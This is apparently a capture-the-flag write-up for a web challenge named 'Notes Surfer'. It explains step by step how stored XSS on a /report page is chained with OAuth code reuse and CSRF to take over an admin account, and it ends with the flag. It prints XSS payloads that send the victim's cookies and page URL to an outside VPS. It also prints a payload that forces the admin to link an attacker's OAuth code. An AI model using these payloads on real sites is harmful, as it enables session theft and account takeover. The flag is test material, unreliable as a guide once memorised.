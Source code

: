 **NOTES SURFER** 


**Category:** Web
**Concepts:** oauth, csrf

**Problem Statement:**
Check out our new sticky note website!
(link to main webpage)
(link to oauth provider)

**Hints**
None


![image](../images/ns1.png)


Once I made accounts on the provider and main pages, There was an option to link the oauth provider to the main account.
On inspection of the landing page, I immediately tried XSS and SSTI on the notes. Both Absent

On further inspection I found another end point /report

![image](../images/ns4.png)

I tried to use XSS here but since the XSS was blind, I fired my VPS and used the payload

`<script>document.location.href = "myvps.com/"</script>`

and soon got a request on my access logs.

GREAT, so we have something now.

I tried to get the cookies by `<script>document.location.href = "myvps.com/" + btoa(document.cookie)</script>` but it seems all the cookies on the admin were HTTPOnly, so no luck there.

*Failed Attempt*

Next I realized that I could probably steal the admin's oath code if I somehow make the callback redirect to a page where the note with my XSS is stored.
So, I did the following

#Step 1: Create an XSS to get the url

Payload:

`<script>document.location.href = "myvps.com/" + btoa(document.location)</script>`

and sent it off

__Note that this xss not only gives us the URI of where the reported notes are stored but is also used to get the oauth code(since it is also sent via a GET request)__


#Step 2: Change the redirect URI in the Oauth request to this URI we recieved(this is the page accessible by admin where the reported note is stored)

Since this URI contains an XSS to send the current URL to my VPS, it should send the code to my VPS.

The oauth request looks like this `http://one.jh2i.com:50020/oauth/authorize?response_type=code&client_id=QJ7Bo88ZBioNTZSXTOJrMYDx&redirect_uri=http%3A%2F%2Fthree.jh2i.com%3A50039%2Foauth%2Fsignin_callback&scope=profile&state=7HBwKRgWyDgqfIEJmpU6suYVLxKAAF&action=signin`

The state is not checked so you can also omit it.

#Step 3: Login as admin using the oauth code

But the whitelisting on the redirect URI was strong and I couldn't change it, so this method failed.

*Successful Attempt*

I also noticed that the oauth code was one-time only. So I fired up burpsuite to intercept this code and drop the request. This was so that my code can be used by someone else (this someone is going to be the admin)

#Step 1: Initiate linking of oauth provider account with your main account

#Step 2: Drop the request which sends the oauth code from provider to main:

Use proxy like BurpSuite for this, make sure to copy the oauth code
![image](../images/ns2.png)

#Step 3: Use the XSS to perform a CSRF and spoof admin's account to link with your oauth:

Now that you have this oauth code, anyone who makes GET request to the url with the code, will have their main account linked to YOUR oauth provider account.
So use the XSS to do this to the admin

Payload:
`<script>document.location.href = 'http://one.jh2i.com:50039/oauth/signin_callback?code=Z0QosnS68dCvV7YN6ir32YqcOId0iM1XTuenkMb4HQwR0rYC'</script>`

#Step 4: Login with your oauth:

Now that your oauth is linked to the admin's main account, signing in through oauth will sign you into admin's main account.

![image](../images/ns3.png)



**FLAG:** flag{take_good_note_csrf_oauth}


